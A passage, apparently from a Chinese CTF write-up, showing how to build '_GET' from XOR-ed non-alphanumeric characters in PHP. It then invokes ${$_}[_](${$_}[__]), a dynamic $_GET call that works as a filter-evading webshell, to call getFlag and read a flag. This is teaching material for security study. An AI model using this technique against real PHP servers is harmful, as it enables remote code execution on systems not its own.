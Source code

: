 ![img](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406100958327.png)

```php
<?php
    echo "{"^">";
?>
```

输出结果为：

![img](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406100958377.png)

```php
<?php
    echo "{"^"/";
?>
```

输出结果为：

![img](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406100958373.png)

所以我们可以知道， `_GET` 就是这么被构造出来的啦！

## 获取 `_GET` 参数 

我们又该如何获取 `_GET` 参数呢？咱们可以构造出如下字串：

```php
<?php
    echo ${$_}[_](${$_}[__]);//$_GET[_]($_GET[__])
?>
```

根据前面构造的来看， `$_` 已经变成了 `_GET` 。顺理成章的来讲， `$_ = _GET` 。我们构建 `$_GET[__]` 是为了要获取参数值。

### 传入参数

此时我们只需要去调用 `getFlag` 函数获取 `webshell` 就好了，构造如下：

```php
<?php
    echo $_=getFlag;//getFlag
?>
```

所以把参数全部连接起来，就可以了。

![img](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406100958326.png)

结果如下：

![img](https://yk-image-md.oss-cn-wuhan-lr.aliyuncs.com/image202406100958114.png)

于是我们就成功地读取到了 flag！

## 动态函数执行
